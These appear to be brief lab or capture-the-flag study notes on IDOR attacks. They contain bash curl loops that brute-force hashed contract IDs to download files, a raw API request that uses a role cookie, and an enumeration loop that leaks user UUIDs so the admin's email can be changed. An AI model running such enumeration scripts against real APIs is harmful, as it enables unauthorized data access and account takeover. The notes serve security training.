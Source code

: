
## POST

```bash

#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://94.237.54.176:47463/download.php
    done
done


```



# IDOR in Insecure APIs

Steps:
1. find how the app work and find in the middle the call to api is call the profile info

``` bash

GET /profile/api.php/profile/5 HTTP/1.1
Host: 94.237.63.201:42092
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.63.201:42092/profile/index.php
Connection: keep-alive
Cookie: role=employee


```



# Chaining IDOR Vulnerabilities

Steps: 
1. LEAK all uuid to find the admin
2. Get uuid the admin and change the email

```bash

#!/bin/bash

for i in {1..20}; do
    url="http://94.237.63.201:42092/profile/api.php/profile/$i"
    response=$(curl  -s $url)
    echo "$response"
done


```
